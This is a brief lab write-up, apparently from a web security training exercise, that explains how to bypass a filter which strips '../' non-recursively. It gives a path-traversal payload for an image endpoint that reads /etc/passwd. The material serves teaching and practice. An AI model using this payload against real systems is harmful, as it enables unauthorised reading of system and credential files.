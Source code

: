 # Lab: File path traversal, traversal sequences stripped non-recursively
## Description

The application is fetching images like this `/image?filename=45.jpg`

It attempts to prevent path traversal by removing stripping (removing all occurences of) `../`. To bypass this we can do something like this:

`/image?filename=....//....//....//etc/passwd`

That will result in the following after `../` has been removed:

`../../../etc/passwd`

## Solution
`/image?filename=....//....//....//etc/passwd`
